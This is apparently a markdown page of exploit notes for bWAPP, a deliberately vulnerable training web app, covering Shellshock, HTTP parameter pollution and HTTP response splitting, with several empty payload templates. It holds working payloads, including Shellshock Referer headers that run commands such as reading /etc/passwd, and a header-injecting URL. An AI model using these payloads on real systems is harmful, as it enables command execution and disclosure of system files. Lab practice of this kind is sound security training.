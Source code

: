 ## 💀  Shellshock Vulnerability (CGI) 💀

Modify /bWAPP/cgi-bin/shellshock.sh request

```
Referer: () { nothing;}; /bin/touch /tmp/malicious
```

```
Referer: () { nothing;}; echo; /bin/cat /etc/passwd
```

# Other bugs...


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  HTTP Paramter Pollution 💀

Put name

```
bee&movie=1
```

then every link will choose G.I Joe: Retaliation movie.


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  HTTP Response Splitting 💀

```
http://192.168.1.20/bWAPP/http_response_splitting.php?url=http://itsecgames.blogspot.com%0AReferer%3agoogle.com
```
